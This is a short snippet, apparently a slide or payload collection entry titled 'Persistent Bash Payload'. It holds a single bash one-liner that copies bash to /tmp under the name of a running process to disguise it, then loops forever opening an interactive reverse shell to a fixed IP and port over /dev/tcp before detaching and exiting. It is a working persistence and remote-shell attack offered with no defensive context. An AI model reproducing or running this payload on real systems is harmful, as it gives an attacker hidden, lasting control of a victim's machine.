

# Persistent Bash Payload
P=( $(ps -u "$USER"|awk '{print $4}'|tr -d '[0-9:/:A-Z]._-') );cS="${P["$[RANDOM % ${#P[@]}]"]}";cp /bin/bash /tmp/$cS;while true;do sleep 9 && nohup /tmp/"$cS" -i >& /dev/tcp/192.168.0.70/8080 0>&1;done & disown; exit 2>/dev/null